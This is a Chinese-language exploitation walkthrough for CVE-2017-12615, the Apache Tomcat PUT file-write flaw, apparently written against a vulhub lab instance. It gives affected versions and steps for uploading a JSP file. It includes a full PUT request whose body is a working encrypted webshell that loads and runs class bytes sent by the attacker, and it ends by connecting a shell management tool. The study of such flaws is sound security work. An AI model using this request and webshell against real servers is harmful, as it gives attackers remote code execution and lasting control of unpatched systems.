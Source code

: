 CVE-2017-12615

# Tomcat 任意写入文件漏洞

## 一、漏洞描述

Apache Tomcat 7.0.0到7.0.79版本中存在远程代码执行漏洞，当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法时，攻击者可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件，文件中的代码被服务器执行。

## 二、影响版本

 Apache Tomcat >=7.0.0，<=7.0.79

## 三、利用流程

1 此漏洞对应的名称为 Tomcat 任意写入文件漏洞 (CVE-2017-12615)![avatar](/12615-1.png)
2 访问其如图所示

![avatar](./12615-2.png)
3 直接抓包，修改请求方式为 PUT，并且设置文件名为1.jsp(名字随意)，然后填充 shell(jsp shell即可)文件内容，发送成功后，服务器返回状态码201

![avatar](./12615-3.png)

```
PUT /1.jsp/ HTTP/1.1
Host: 118.193.36.37:29618
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 611

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>
```

4 访问1.jsp,存在

![avatar](./12615-4.png)

5 使用 shell 管理工具连接即可

![avatar](./12615-5.png)

参考：

https://www.cnvd.org.cn/flaw/show/CNVD-2017-27472

https://vulhub.org/#/environments/tomcat/CVE-2017-12615/
